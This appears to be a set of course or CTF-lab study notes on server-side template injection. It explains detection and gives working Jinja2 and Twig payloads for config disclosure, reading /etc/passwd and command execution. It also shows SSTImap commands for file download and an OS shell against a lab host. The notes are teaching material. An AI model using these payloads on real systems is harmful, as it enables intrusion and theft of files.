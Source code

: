 # 🧑‍🎤 SSTI

A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses. An everyday use case for template engines is a website with shared headers and footers for all pages.

Popular examples of template engines are [Jinja](https://jinja.palletsprojects.com/en/3.1.x/) and [Twig](https://twig.symfony.com/).

Usually, a template engine requires a template and a set of values to be inserted into the template.

Let's consider Jinja ->

```jinja2
Hello {{ name }}!
```

We can see the variable called `name`, which is replaced with a dynamic value during rendering. So `name="vautia" will` render ->

```
Hello vautia!
```

but we can start to imagine more complexe stuff with loops ->

```jinja2
{% raw %}
{% for name in names %}
Hello {{ name }}!
{% endfor %}
{% endraw %}
```

```
Hello vautia!
Hello 21y4d!
Hello Pedant!
```

So our goal is to inject templating code into a template that is later rendered by the server.

## Identifying SSTI

It's very similar to as an SQL injection to identify: we inject special characters with semantic meaning in template engines and observe the web application's behavior

The following chars have a high chance of breaking the template:

```
${{<%[%'"}}%\.
```

Let's imagine the follwoing web app when we enter the name "vautia"

<figure><img src="../../../.gitbook/assets/image (1343).png" alt=""><figcaption></figcaption></figure>

And if we enter the string we saw earlier:

<figure><img src="../../../.gitbook/assets/image (1344).png" alt=""><figcaption><p>vulnerable to SSTI</p></figcaption></figure>

### Identifying Template Engine

<figure><img src="../../../.gitbook/assets/image (1345).png" alt=""><figcaption></figcaption></figure>

`${7*7}` is very famous, let's try it out ->

_**Apply what you learned in this section and identify the Template Engine used by the web application. Provide the name of the template engine as the answer.**_

<figure><img src="../../../.gitbook/assets/image (1346).png" alt=""><figcaption></figcaption></figure>

## Exploiting Jinja2

Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django` and we will be exploiting assuming we're on Flask

#### _**Information Disclosure ->**_

the web application's configuration:

```jinja2
{{ config.items() }}
```

dump all available built-in functions:

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

Local file inclusion:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Remote code execution:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

_**Exploit the SSTI vulnerability to obtain RCE and read the flag.**_

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

<figure><img src="../../../.gitbook/assets/image (1347).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1348).png" alt=""><figcaption></figcaption></figure>

## Exploiting Twig

information about the current template:

```twig
{{ _self }}
```

the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file\_excerpt](https://symfony.com/doc/current/reference/twig\_reference.html#file-excerpt) and can be used to read local files.

Local file inclusion:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

For RCE we can use the PHP built-in function `system`. We can pass an argument to \{{this function by using Twig's `filter` function

```twig
{{ ['id'] | filter('system') }}
```

{% hint style="success" %}
We can find the syntax for the other templates on the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
{% endhint %}

## SSTI Tools

We can use [SSTImap](https://github.com/vladko312/SSTImap) to aid the SSTI exploitation process.

```shell-session
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py 
```

And to use the tool this is the syntax:

```shell-session
python3 sstimap.py -u http://172.17.0.2/index.php?name=test
```

download a remote file to our local machine with the `-D` flag

```shell-session
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'
```

execute a system command using the `-S` flag

```shell-session
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id
```

we can use `--os-shell` to obtain an interactive shell

```shell-session
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```
